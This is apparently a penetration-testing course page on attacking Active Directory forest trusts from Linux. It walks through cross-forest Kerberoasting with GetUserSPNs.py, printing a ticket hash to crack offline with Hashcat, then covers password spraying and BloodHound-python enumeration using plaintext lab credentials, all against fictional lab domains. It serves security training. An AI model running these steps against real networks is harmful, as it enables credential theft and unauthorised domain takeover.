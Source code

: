 # Trust Attacks - Linux

As we saw in the previous section, it is often possible to Kerberoast across a forest trust. If this is possible in the environment we are assessing, we can perform this with `GetUserSPNs.py` from our Linux attack host. To do this, we need credentials for a user that can authenticate into the other domain and specify the `-target-domain` flag in our command. Performing this against the `FREIGHTLOGISTICS.LOCAL` domain, we see one SPN entry for the `mssqlsvc` account.

### Cross-Forest Kerberoasting

**Using GetUserSPNs.py**

&#x20; Using GetUserSPNs.py

```shell-session
acd199218@htb[/htb]$ GetUserSPNs.py -target-domain FREIGHTLOGISTICS.LOCAL INLANEFREIGHT.LOCAL/wley

Impacket v0.9.25.dev1+20220311.121550.1271d369 - Copyright 2021 SecureAuth Corporation

Password:
ServicePrincipalName                 Name      MemberOf                                                PasswordLastSet             LastLogon  Delegation 
-----------------------------------  --------  ------------------------------------------------------  --------------------------  ---------  ----------
MSSQLsvc/sql01.freightlogstics:1433  mssqlsvc  CN=Domain Admins,CN=Users,DC=FREIGHTLOGISTICS,DC=LOCAL  2022-03-24 15:47:52.488917  <never> 
```

Rerunning the command with the `-request` flag added gives us the TGS ticket. We could also add `-outputfile <OUTPUT FILE>` to output directly into a file that we could then turn around and run Hashcat against.

**Using the -request Flag**

&#x20; Using the -request Flag

```shell-session
acd199218@htb[/htb]$ GetUserSPNs.py -request -target-domain FREIGHTLOGISTICS.LOCAL INLANEFREIGHT.LOCAL/wley  

Impacket v0.9.25.dev1+20220311.121550.1271d369 - Copyright 2021 SecureAuth Corporation

Password:
ServicePrincipalName                 Name      MemberOf                                                PasswordLastSet             LastLogon  Delegation 
-----------------------------------  --------  ------------------------------------------------------  --------------------------  ---------  ----------
MSSQLsvc/sql01.freightlogstics:1433  mssqlsvc  CN=Domain Admins,CN=Users,DC=FREIGHTLOGISTICS,DC=LOCAL  2022-03-24 15:47:52.488917  <never>               


$krb5tgs$23$*mssqlsvc$FREIGHTLOGISTICS.LOCAL$FREIGHTLOGISTICS.LOCAL/mssqlsvc*$10<SNIP>
```

We could then attempt to crack this offline using Hashcat with mode `13100`. If successful, we'd be able to authenticate into the `FREIGHTLOGISTICS.LOCAL` domain as a Domain Admin. If we are successful with this type of attack during a real-world assessment, it would also be worth checking to see if this account exists in our current domain and if it suffers from password re-use. This could be a quick win for us if we have not yet been able to escalate in our current domain. Even if we already have control over the current domain, it would be worth adding a finding to our report if we do find password re-use across similarly named accounts in different domains.

&#x20;Suppose we can Kerberoast across a trust and have run out of options in the current domain. In that case, it could also be worth attempting a single password spray with the cracked password, as there is a possibility that it could be used for other service accounts if the same admins are in charge of both domains. Here, we have yet another example of iterative testing and leaving no stone unturned.

***

### Hunting Foreign Group Membership with Bloodhound-python

As noted in the last section, we may, from time to time, see users or admins from one domain as members of a group in another domain. Since only `Domain Local Groups` allow users from outside their forest, it is not uncommon to see a highly privileged user from Domain A as a member of the built-in administrators group in domain B when dealing with a bidirectional forest trust relationship. If we are testing from a Linux host, we can gather this information by using the [Python implementation of BloodHound](https://github.com/fox-it/BloodHound.py). We can use this tool to collect data from multiple domains, ingest it into the GUI tool and search for these relationships.

On some assessments, our client may provision a VM for us that gets an IP from DHCP and is configured to use the internal domain's DNS. We will be on an attack host without DNS configured in other instances. In this case, we would need to edit our `resolv.conf` file to run this tool since it requires a DNS hostname for the target Domain Controller instead of an IP address. We can edit the file as follows using sudo rights. Here we have commented out the current nameserver entries and added the domain name and the IP address of `ACADEMY-EA-DC01` as the nameserver.

**Adding INLANEFREIGHT.LOCAL Information to /etc/resolv.conf**

&#x20; Adding INLANEFREIGHT.LOCAL Information to /etc/resolv.conf

```shell-session
acd199218@htb[/htb]$ cat /etc/resolv.conf 

# Dynamic resolv.conf(5) file for glibc resolver(3) generated by resolvconf(8)
#     DO NOT EDIT THIS FILE BY HAND -- YOUR CHANGES WILL BE OVERWRITTEN
# 127.0.0.53 is the systemd-resolved stub resolver.
# run "resolvectl status" to see details about the actual nameservers.

#nameserver 1.1.1.1
#nameserver 8.8.8.8
domain INLANEFREIGHT.LOCAL
nameserver 172.16.5.5
```

Once this is in place, we can run the tool against the target domain as follows:

**Running bloodhound-python Against INLANEFREIGHT.LOCAL**

&#x20; Running bloodhound-python Against INLANEFREIGHT.LOCAL

```shell-session
acd199218@htb[/htb]$ bloodhound-python -d INLANEFREIGHT.LOCAL -dc ACADEMY-EA-DC01 -c All -u forend -p Klmcargo2

INFO: Found AD domain: inlanefreight.local
INFO: Connecting to LDAP server: ACADEMY-EA-DC01
INFO: Found 1 domains
INFO: Found 2 domains in the forest
INFO: Found 559 computers
INFO: Connecting to LDAP server: ACADEMY-EA-DC01
INFO: Found 2950 users
INFO: Connecting to GC LDAP server: ACADEMY-EA-DC02.LOGISTICS.INLANEFREIGHT.LOCAL
INFO: Found 183 groups
INFO: Found 2 trusts

<SNIP>
```

We can compress the resultant zip files to upload one single zip file directly into the BloodHound GUI.

**Compressing the File with zip -r**

&#x20; Compressing the File with zip -r

```shell-session
acd199218@htb[/htb]$ zip -r ilfreight_bh.zip *.json

  adding: 20220329140127_computers.json (deflated 99%)
  adding: 20220329140127_domains.json (deflated 82%)
  adding: 20220329140127_groups.json (deflated 97%)
  adding: 20220329140127_users.json (deflated 98%)
```

We will repeat the same process, this time filling in the details for the `FREIGHTLOGISTICS.LOCAL` domain.

**Adding FREIGHTLOGISTICS.LOCAL Information to /etc/resolv.conf**

&#x20; Adding FREIGHTLOGISTICS.LOCAL Information to /etc/resolv.conf

```shell-session
acd199218@htb[/htb]$ cat /etc/resolv.conf 

# Dynamic resolv.conf(5) file for glibc resolver(3) generated by resolvconf(8)
#     DO NOT EDIT THIS FILE BY HAND -- YOUR CHANGES WILL BE OVERWRITTEN
# 127.0.0.53 is the systemd-resolved stub resolver.
# run "resolvectl status" to see details about the actual nameservers.

#nameserver 1.1.1.1
#nameserver 8.8.8.8
domain FREIGHTLOGISTICS.LOCAL
nameserver 172.16.5.238
```

The `bloodhound-python` command will look similar to the previous one:

**Running bloodhound-python Against FREIGHTLOGISTICS.LOCAL**

&#x20; Running bloodhound-python Against FREIGHTLOGISTICS.LOCAL

```shell-session
acd199218@htb[/htb]$ bloodhound-python -d FREIGHTLOGISTICS.LOCAL -dc ACADEMY-EA-DC03.FREIGHTLOGISTICS.LOCAL -c All -u forend@inlanefreight.local -p Klmcargo2

INFO: Found AD domain: freightlogistics.local
INFO: Connecting to LDAP server: ACADEMY-EA-DC03.FREIGHTLOGISTICS.LOCAL
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 5 computers
INFO: Connecting to LDAP server: ACADEMY-EA-DC03.FREIGHTLOGISTICS.LOCAL
INFO: Found 9 users
INFO: Connecting to GC LDAP server: ACADEMY-EA-DC03.FREIGHTLOGISTICS.LOCAL
INFO: Found 52 groups
INFO: Found 1 trusts
INFO: Starting computer enumeration with 10 workers
```

After uploading the second set of data (either each JSON file or as one zip file), we can click on `Users with Foreign Domain Group Membership` under the `Analysis` tab and select the source domain as `INLANEFREIGHT.LOCAL`. Here, we will see the built-in Administrator account for the INLANEFREIGHT.LOCAL domain is a member of the built-in Administrators group in the FREIGHTLOGISTICS.LOCAL domain as we saw previously.

**Viewing Dangerous Rights through BloodHound**

![image](https://academy.hackthebox.com/storage/modules/143/foreign\_membership.png)

***

### Closing Thoughts on Trusts

As seen in the past few sections, there are several ways to leverage domain trusts to gain additional access and even do an "end-around" and escalate privileges in our current domain. For example, we can take over a domain that our current domain has a trust with, and find password re-use across privileged accounts. We've seen how Domain Admin rights in a child domain nearly always mean we can escalate privileges and compromise the parent domain using the ExtraSids attack. Domain trusts are a rather large and complex topic. The primer in this module has given us the tools to enumerate trusts and perform some standard intra-forest and cross-forest attacks.
